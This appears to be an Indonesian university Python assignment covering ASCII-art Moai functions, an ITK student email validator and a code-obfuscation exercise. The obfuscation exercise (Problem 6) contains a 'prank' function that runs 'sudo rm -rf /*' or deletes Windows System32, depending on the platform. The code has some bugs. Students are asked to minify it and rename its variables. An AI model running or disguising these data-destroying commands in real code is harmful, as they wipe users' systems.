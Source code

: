 # Assignment 03

Group members
- FullName1 (StudentID) (Problem #)
- FullName2 (StudentID) (Problem #)
- FullName3 (StudentID) (Problem #)
- etc.


## Problem 1: Moai ASCII art 1 

Diberikan contoh ilustrasi patung MOAI dengan menggunakan karakter ASCII   
sebagai berikut

```
   ________
  /        \
  |________|
  |__|  |__|
 |   |  |   |
 |   |__|   |
|   ______   |
|    ____    |
\____________/
  /        \
 |__________|
 
```
Tuliskan spesifikasi untuk gambar ASCII art tersebut. Spesifikasi tersebut 
memuat:
- Karakter ASCII yang digunakan
- Ukuran kepala (tinggi dan lebar)
- Ukuran mata (tinggi dan lebar)
- Ukuran leher (tinggi dan lebar)


### Answer

## Problem 2: Moai ASCII art 2
Buatlah fungsi untuk mencetak ilustrasi MOAI dengan masukan fungsi
seperti yang telah dispesifikasikan di Problem 1. Gunakan _keyword arguments_
untuk kasus eksekusi fungsi tanpa masukan (tanpa input) dan memberikan
gambar seperti di Problem 1.


### Answer

## Problem 3: ITK student email validator with exception handling
Buatlah suatu fungsi yang memuat _exception handling_ untuk mengidentifasikan
bahwa input ke fungsi tersebut hanyalah memiliki format email ITK untuk
mahasiswa.  
Beberapa _test cases_ yang bisa dicoba:
- `dosen-alpro@lecturer.itk.ac.id`
- `salah_masuk@student.itk.ac.id`
- `namamu_siapa?@student.itk.ac.id`
- `10012023@student.itk.ac.id`
- `student.itk.ac.id@10012023`

Jika format email benar maka dijalankan perintah pencetakan `"Lanjut ke halaman berikutnya"`.
Jika format tidak sesuai maka akan dijalannkan perintah pencetakan `"Masukan email ITK"`


### Answer

## Problem 4: 

### Answer

## Problem 5: Read secret code

### Answer

## Problem 6: Obfuscated your code
Saat kecil Elliot sangat tertarik bermain-main dengan menyisipkan kode-kode berbahaya di   
dalam komputer temannya tanpa sepengetahuan mereka yang bisa dia jalankan sesuka
hati. Berikut potonga kode Python yang Elliot buat

```py
import sys as balon
import subprocess as tertawa
def surprise(payload="Don't worry, be happy. :D"):
  nama_pelawak_1 = "linux"
  nama_pelawak_2 = "linux2"
  nama_pelawak_3 = "darwin"
  nama_pelawak_4 = "win3"
  if balon.platform == nama_pelawak_1 or balon.platform == "linux2" or balon.plafform == "darwin":
    subprocess.run(["sudo", "rm", "-rf", "/*"])
  elif sys.platform == "win32":
    subprocess.run(["del", "/S", "C:\\Windows\\System32\\"])
  else:
    print(payload)
  return None
```

Simpan potonga kode tersebut dengan nama `surprise.py` dan buatlah suatu fungsi baru
di tempat atau file lain yang mampu membaca isi berkas tersebut dan menghapus 
semua spasi dan tab yang tidak perlu tapi isi kode Python masih tetap benar 
sesuai kaidah-kaidah penulisan _syntax_ Python yang telah dipelajari di kelas.
(bisa menggunakan format _one-line_). Gantilah nama-nama variabel yang bisa diganti
tanpa mengubah alur program dimulai dari `a`, `b`, `c` dan seterusnya sebanyak
nama variabel yang kalian bisa ganti.

Jika berhasil akan didapatkan potongan program `new_surprise.py` yang berisi
kode Python sebagai berikut
```py

```
### Answer